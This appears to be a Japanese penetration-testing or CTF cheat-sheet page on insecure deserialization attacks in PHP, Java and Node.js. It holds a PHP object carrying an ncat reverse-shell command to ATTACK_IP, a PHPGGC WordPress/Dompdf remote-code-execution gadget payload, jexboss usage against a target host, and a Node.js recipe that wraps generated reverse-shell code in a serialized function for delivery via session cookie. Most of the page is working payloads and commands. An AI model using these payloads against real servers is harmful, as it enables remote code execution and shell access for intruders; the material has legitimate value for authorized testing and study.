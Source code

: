 # デシリアライズ

PHP でオブジェクトをシリアライズする例  
php foo.php で実行

```php
<?php
# 仮にMaliciousUserDataクラスがwakeupマジック関数で$commandを実行する実装になっている場合、その動作を制御できる
# unserialize時、同名のクラスに自動的に紐づく。
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

## 自動化

### PHPGGC

https://github.com/ambionics/phpggc

```shell
# インストール
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 一覧
./phpggc -l
./phpggc -l WordPress

# 詳細情報
./phpggc -i WordPress/Dompdf/RCE1

# ペイロードを取得
./phpggc WordPress/Dompdf/RCE1 system whoami
O:19:"Dompdf\Adapter\CPDF":1:{s:15:"*_image_cache";O:33:"Requests_Utility_FilteredIterator":4:{i:0;i:0;i:1;a:1:{i:0;s:6:"whoami";}i:2;a:1:{s:11:"*callback";s:6:"system";}i:3;N;}}

# ペイロードを送信する方法はフレームワークによって様々。
# Cookieを変更したり、APIキーと合わせてエンコードしたり。
```

### Ysoserial

Java 用

https://github.com/frohoff/ysoserial


### jexboss

Java（主にJBoss用？）

環境依存がなく、使いやすかった。TonyTheTiger CTF 参照。

https://github.com/joaomatosf/jexboss/blob/master/README.md

```shell
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss 
pip install -r requires.txt

# no-yes-IP-Port
python jexboss.py -host http://10.10.137.88:8080
```

## Node.js

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

nodejsshell.py を使ってリバースシェルのシェルコードを生成

```shell
$ python2 ./nodejsshell.py 10.2.22.182 6666
[+] LHOST = 10.2.22.182
[+] LPORT = 6666
[+] Encoding
eval(String.fromCharCode(10,118,97................
```

シリアル化されたペイロードを生成し、 関数本体の後に IIFE 括弧を追加

- 先頭に `{"rce":"_$$ND_FUNC$$_function (){ ` を追加
- 最後に `} () "}` を追加

```shell

```text
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(1..........
```

典型的には、これをBase64エンコードしてセッションCookie等として送信する。
